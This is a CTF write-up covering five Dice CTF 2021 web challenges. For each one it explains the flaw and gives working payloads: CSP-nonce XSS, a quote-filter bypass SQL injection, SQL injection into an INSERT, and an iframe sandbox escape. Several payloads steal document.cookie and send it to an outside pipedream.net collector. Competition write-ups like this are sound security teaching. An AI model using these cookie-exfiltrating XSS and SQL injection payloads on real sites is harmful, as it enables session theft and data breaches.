 ```yaml
---
layout: post
date: 2021-02-08 00:00:10
title: "Dice CTF Write Up"
categories: CTF
tags: [XSS, SQL Injection]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image/blob/main/Dice%20CTF/dice%20main.png?raw=true)

---
## <span style="color:#21C587"></span> (Web) Babier CSP [107 pts]

> The Babier CSP challenge is a simple CSP Bypass challenge.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
```
If you check the source code, you can see that the nonce value of the script tag is set as above. I thought that the admin bot was also applying the nonce value as above.

```
<script nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href="https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net"%2bdocument.cookie</script>
```
The payload used is as above.<br>

> FLAG : dice{web_1s_a_stat3_0f_grac3_857720}

---
## <span style="color:#21C587"></span> (Web) Missing Flavortext [111 pts]

>  The Missing Flavortext challenge is a SQL Injection challenge that bypasses single quotas by using the features of express.js.

```javascript
if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
  return res.redirect('/');
}
```
In the code above, single quota is filtered using the includes function. However, this can be bypassed by passing it as an array because it only verifies strings.

```
username=admin&password[]=1&password[]=' or '1'='1
```
The payload used is as above.<br>

> FLAG : dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}

---
## <span style="color:#21C587"></span> (Web) Web Utils [121 pts]

> TThe Web Utils challenge is a challenge that triggers XSS using a vulnerability when receiving the req.body value.

```html
// view.html

<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
```
It is view.html code, and if the type is link in the middle, you can see window.location as data. And if data contains a payload such as `javascript:alert(1)`, you can trigger xss.<br>

```javascript
// api.js
(skip)

module.exports = async (fastify) => {
  fastify.post('createLink', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
        
(skip)
```
However, if you look at the link creation logic, the value of `req.body.data` is verified with a regular expression. So, you can't put xss payload in the link creation logic.<br>

```javascript
// api.js
(skip)

fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)

(skip)
```
However, if you look at the logic that creates the Pate, there is no verification for req.body, which causes a vulnerability here. Using this, you can give type as link and data as xss payload.

```
{"data":"javascript:alert(1)","type":"link"}
{"data":"javascript:location.href='https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/'%2bdocument.cookie","type":"link"}
```
The payload used is as above.<br>   

> FLAG : dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}

---
## <span style="color:#21C587"></span> (Web) Build a Panel [130 pts]

>  The Build a Panel challenge is the challenge of reading flags using SQL Injection in the insert statement.

```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
This is the logic of add_widget running on admin bot. When looking at the query, the input value is entered without any verification, so SQL Injection can be performed.<br>

If we put our panelid in panelid and a query that reads flag in widgetname, a widget is created on our server, and the widget name contains `FLAG`. (panelid is stored in a cookie.)

```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=pocas&widgetname=adfdaf&widgetdata=a'), ('pocas', (select flag from flag), '{"type":"pocas"}')--
```
The payload used is as above.<br> 

> FLAG : dice{ch41n_ChAIn_aNd_m0Re_cHaIn}

---

## <span style="color:#21C587"></span> (Web) Web IDE [196 pts]

> The Web IDE challenge is a challenge that bypasses iframe sandbox and triggers XSS.

- Scenario<br>

1. We are using `allow-scripts` as an option for iframe, and the value we input is executed by the eval function in sandbox.html.
2. The path to the administrator's cookie is /ide, so it is not easy to read the cookie. Because xss payload runs in /sandbox.html.
3. So, first you need to create a separate site and bypass the iframe sandbox.
4. If you bypass the iframe sandbox, you are not limited by sop, and you can freely execute xss payloads.
5. However, since xss payload is executed in `/sandbox.html`, it cannot read the admin cookie.
6. So, create an object using `window.open("/ide")`, and execute xss payload on the object to steal the cookie.<br>

```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
    <script>
        async function sendMessage() {
            // window open -> make file -> include it
            const cmd="[].constructor.constructor(\"(async () => {const res = await fetch('https://web-ide.dicec.tf/ide/save', {method:'POST', headers: {'Content-Type': 'application/javascript'}, body: 'const myWindow = window.open(\\\"/ide\\\"); (async (myWindow) => { await setTimeout( async() => {await fetch(`https://en20uuq0p0wxmkp.m.pipedream.net/?flag=${myWindow.document.cookie}`)}, 500) })(myWindow)'}); const file_name = await res.text(); const scr = document.createElement('script'); scr.src = `/ide/saves/${file_name}`; document.body.appendChild(scr);})()\")()"
            
            await new Promise((r) => { window.addEventListener(('load'), r); });
            document.querySelector('iframe')
              .contentWindow
              .postMessage(cmd, '*');  // IDE -> sandbox message
        };
    </script>
  </head>
  <body>
      <img src='x' onerror="sendMessage()" />
      <iframe name='hh' src="https://web-ide.dicec.tf/sandbox.html" frameborder="0"></iframe>
  </body>
</html>
```
The payload used is as above.<br> 

> FLAG : dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}

---
